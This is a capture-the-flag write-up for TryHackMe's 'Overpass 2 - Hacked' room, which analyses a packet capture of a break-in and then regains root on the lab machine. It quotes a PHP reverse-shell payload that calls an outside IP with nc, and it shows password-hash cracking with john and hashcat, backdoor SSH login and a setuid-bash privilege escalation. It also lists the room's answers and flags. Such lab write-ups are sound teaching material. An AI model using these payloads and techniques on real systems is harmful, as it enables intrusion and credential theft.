

## Index

1. [[overpass-2/README#Setup|Setup]]
2. [[overpass-2/README#Task 1|Task 1]]
3. [[overpass-2/README#Task 2|Task 2]]
4. [[overpass-2/README#Task 3|Task 3]]
5. [[overpass-2/README#Conclusion|Conclusion]]


## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Task 1
The room provides us with a packet capture record file: `overpass2.pcapng`. We can check it's contents by loading it in wireshark.
```shell-session
# Always check the checksum provided!
$ md5sum overpass2.pcapng && echo "11c3b2e9221865580295bc662c35c6dc"
11c3b2e9221865580295bc662c35c6dc  overpass2.pcapng
11c3b2e9221865580295bc662c35c6dc

# Loading the file using wireshark from the command line:
$ wireshark overpass2.pcapng &
```

Reading the first question, we can discern that we're looking for a POST request to some endpoint on the target that presumably uploads a reverse shell that the hacker used.



Looking through the packet capture record, we can clearly see _packet number 17_ records a POST request to `/development/upload.php`, which is most likely what we were looking for. This gives the answer to the first question in the task:

>  What was the URL of the page they used to upload a reverse shell? 
> 
> Answer: `/development/`

If we follow the TCP stream, we can see the contents of the file uploaded: 


This gives us the answer to the next question:
> What payload did the attacker use to gain access?
>
> Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

Following the TCP stream from packet 30, we can clearly see what the hacker did when they got initial access through the reverse shell:


And there it is... the password the hacker used for privesc:

> What password did the attacker use to privesc?
>
> Answer: `whenevernoteartinstant`

Next, we also observe that the hacker creates a ssh backdoor using: https://github.com/NinjaJc01/ssh-backdoor

> How did the attacker establish persistence?
>
> Answer: `https://github.com/NinjaJc01/ssh-backdoor`

As the next question suggests, we're to crack all the passwords from the shadow file dumped by the hacker using the fasttrack wordlist:
```shell-session
$ cat shadowfile
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::


# Cracking the passwords:
$ sudo john --wordlist=/usr/share/wordlists/fasttrack.txt shadowfile
...
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)
...
```

Well, this gives us the answer to the next question in the task:

> Using the fasttrack wordlist, how many of the system passwords were crackable?
>
> Answer: `4` 

## Task 2
As the task dictates, when we look through the source code for the backdoor at: https://github.com/NinjaJc01/ssh-backdoor in conjunction with the packet capture records, we get the answers for several questions:

> What's the default hash for the backdoor?
> 
> Answer: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`


> What's the hardcoded salt for the backdoor? 
> 
> Answer: `1c362db832f3f864c8c2fe05f2002a05`


> What was the hash that the attacker used? - go back to the PCAP for this!
> 
> Answer: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

Looking through the source code, we also notice that the hash is of type: `sha512($pass.$salt)`
With this information, we can now try to crack the password:
```shell-session
$ cat hash.txt
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05

$ sudo hashcat -m 1710  -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1710 (sha512($pass.$salt))
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
...
$ sudo cat cracked.txt                                                               
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```

We have thus obtained the cracked password:
> Crack the hash using rockyou and a cracking tool of your choice. What's the password?
>
> Answer: `november16`

## Task 3
After starting up the machine, let's see what the hacker's done:


> The attacker defaced the website. What message did they leave as a heading?
>
> Answer: `H4ck3d by CooctusClan`

Cute, cute and deadly indeed! Well, too bad for the CooctusClan, we're onto them, so let's start with regaining access to the server. First off, some recon:
```shell-session
$ sudo nmap -sS --top-ports 3000 -vv -oN nmap_scan.txt TARGET_IP
PORT     STATE SERVICE      REASON
22/tcp   open  ssh          syn-ack ttl 63
80/tcp   open  http         syn-ack ttl 63
2222/tcp open  EtherNetIP-1 syn-ack ttl 63
               ^^^^^^^^^^^-------------------> This is a ssh service
```

Seems like there's a ssh service running on ports 22 and 2222. If we try to log into the one running on port 2222 with the cracked credentials as james, we can successfully get access to the machine:
```shell-session
$ ssh -l james -p 2222 -oHostKeyAlgorithms=+ssh-rsa TARGET_IP
james@TARGET_IP's password: november16

james@overpass-production:/home/james/ssh-backdoor $ 
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

And we're in! 

> What's the user flag?
> 
> Answer: `thm{d119b4fa8c497ddb0525f7ad200e6567}`

Now, we can just remove the backdoor and restore the server, but it's better to gain root access and be thorough in case the hacker has gotten to making their access persistent in some way. Let's check some stuff before proceeding:
```shell-session
james@overpass-production:/home/james$ ll
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 ./
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ../
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache/
drwx------ 3 james james    4096 Jul 21  2020 .gnupg/
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local/
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash*
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor/
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www/

james@overpass-production:/home/james$ file .suid_bash
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
```

Looks like there's an interesting file called `.suid_bash` that may be used to gain root privileges. Assuming that the executable's just starts a shell, we can do the following to get root access:
```shell-session
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
```

And there it is! The root flag.

> What's the root flag?
>
> Answer: `thm{d53b2684f169360bb9606c333873144d}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)
